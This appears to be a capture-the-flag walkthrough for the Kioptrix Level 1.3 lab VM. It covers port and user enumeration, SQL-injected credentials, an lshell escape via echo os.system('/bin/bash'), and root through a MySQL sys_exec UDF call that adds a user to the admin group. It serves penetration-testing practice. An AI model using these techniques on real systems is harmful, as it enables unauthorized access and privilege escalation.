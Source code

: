 #  Kioptrix: Level 1.3 (#4)

## Recon & Enummeration

Nmap shows us SSH, Apache and Samba
```
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 9b:ad:4f:f2:1e:c5:f2:39:14:b9:d3:a0:0b:e8:41:71 (DSA)
|_  2048 85:40:c6:d5:41:26:05:34:ad:f8:6e:f2:a7:6b:4f:0e (RSA)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.28a (workgroup: WORKGROUP)
```
 
Gobuster shows us two possible usernames:
```
2021/02/23 18:47:29 Starting gobuster
===============================================================
/index (Status: 200)
/images (Status: 301)
/member (Status: 302)
/logout (Status: 302)
/john (Status: 301)
/robert (Status: 301)
/server-status (Status: 403)
```

enum4linux shows that anonymous SMB login is disabled.


nmap's smb-enum-users script shows more users:
```
Host script results:
| smb-enum-users: 
|   KIOPTRIX4\john (RID: 3002)
|     Full name:   ,,,
|     Flags:       Normal user account
|   KIOPTRIX4\loneferret (RID: 3000)
|     Full name:   loneferret,,,
|     Flags:       Normal user account
|   KIOPTRIX4\nobody (RID: 501)
|     Full name:   nobody
|     Flags:       Normal user account
|   KIOPTRIX4\robert (RID: 3004)
|     Full name:   ,,,
|     Flags:       Normal user account
|   KIOPTRIX4\root (RID: 1000)
|     Full name:   root
|_    Flags:       Normal user account
```

## Intitial Foothold

### SQL injection
We can find two passwords when SQL injecting the users robert and john.
```
john:MyNameIsJohn
robert:ADGAdsafdfwt4gadfga==
```

User loneferret is not available within the webapplication, and is likely to be a normal account

### LigGoat shell

When we SSH into the box with the credentials, we notice directly we are not in an ordinary bash shell:
```
== Welcome LigGoat Employee ==
LigGoat Shell is in place so you  don't screw up
Type '?' or 'help' to get the list of allowed commands
robert:~$ ?
cd  clear  echo  exit  help  ll  lpath  ls
```

This shell offers us minimal capabilities.
The shell we are in is an lshell. Which is python based.
We have access to "echo" so we can escape the shell by:
```
echo os.system('/bin/bash')
```

## Privilege Escalation

### MySQL UDF Exploitation

As Mysql is run as root, and the sys_exec binary is available

```
john@Kioptrix4:/root$ mysql -u root -p                     
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 1
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> select sys_exec("usermod -add -G admin john");
mysql> quit;
Bye
john@Kioptrix4:/root$ sudo su
root@Kioptrix4:/root# 
```




